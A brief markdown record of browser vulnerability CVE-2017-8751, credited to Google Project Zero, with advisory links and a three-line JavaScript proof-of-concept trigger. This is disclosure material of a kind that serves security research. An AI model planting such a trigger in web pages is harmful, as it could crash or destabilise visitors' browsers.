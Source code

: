 # CVE-2017-8751

- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
<script>
Object.setPrototypeOf({}, this);
location.reload();
</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8751)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1339)

